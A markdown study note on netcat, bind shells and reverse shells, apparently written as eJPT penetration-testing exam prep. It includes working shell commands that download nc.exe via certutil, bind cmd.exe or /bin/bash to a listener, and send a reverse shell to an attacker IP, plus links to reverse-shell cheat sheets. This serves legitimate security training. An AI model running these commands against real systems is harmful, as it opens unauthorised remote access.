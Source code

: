 # 43 Bind & Reverse Shells

# Netcat Fundamentals

- Netcat (AKA TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP
- Netcat is available for both \*NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements
- Netcat utilizes a client-server communication architecture with two modes:
	- Client mode
		- Used in client mode to connect to any TCP/UDP port as well as a Netcat listener (server)
	- Server mode
		- Used to listen for connections from clients on a specific port
- Netcat can be used by penetration testers to perform the following functionality:
	- Banner Grabbing
	- Port Scanning
	- Transferring Files
	- Bind/Reverse Shells

### DEMO

```shell
nc <ip> <port>
nc -n # No DNS resolution
nc -u # UDP
nc -l # Listen
nc -e # Execute a program, typically a shell

# TCP connection
nc -nvlp # Setup listener. No DNS, Verbose, Listen, Port
nc -nv <ip> <port> # Connect to a listener

# UDP connection
nc -nvlup # UDP listener
nc -nvu <ip> <port> # Connect to a listener

# Transfer files
# Who receive the file have to setup a listener
nc -nvlp <port> > <file> # Who receive the file
nc -nv <ip> <port> < <file> # Who send the file
```


# Bind Shells

- A bind shell is a type of remote shell where the attacker connects directly to a listener of the target system, consequently allowing for execution of commands on the target system
- A netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener

```
+------------------------+                       +-----------------------+
|       Attacker         |                       |        Target         |
|   (Netcat Client)      | ----- BIND SHELL ---> |   (Netcat Listener)   |
+------------------------+                       +-----------------------+

# Attacker connects to Netcat listener on target
```

### DEMO

```shell
/usr/share/windows-binaries # Where nc is stored
python -m SimpleHTTPServer 80 # Setup a server 

# In target machine, in this case Windows
certutil -urlcache -split -f "http://example.com/files/nc.exe" # Download in WIN
nc.exe -nvlp <port> -e cmd.exe # Setup listener
# If target it's Linux system
nc -nvlp <port> -c /bin/bash # Setup listener

# In attacker machine
nc -nv <ip-target> <port-target> # Connect to listener
```


# Reverse Shells

- A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system

```
+------------------------+                         +-----------------------+
|       Attacker         |                         |        Target         |
|   (Netcat Listener)    | <---- REVERSE SHELL --- |   (Netcat Client)     |
+------------------------+                         +-----------------------+

# Target connects to a Netcat listener on Attacker system
```

### DEMO

```shell
# CONS: Attacker IP needs to be available on the target system

# Attacker machine
nc -nvlp <port>

# Target machine
nc.exe -nv <ip-attacker> <port> -e cmd.exe # Windows target
# Or
nc -nv <ip-attacker> <port> -c /bin/bash # Linux target
```


# Reverse Shell Cheatsheet

### NOTES

- [swisskyrepo - Reverse Shell Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)
- https://www.revshells.com/

#eJPT #cybersecurity 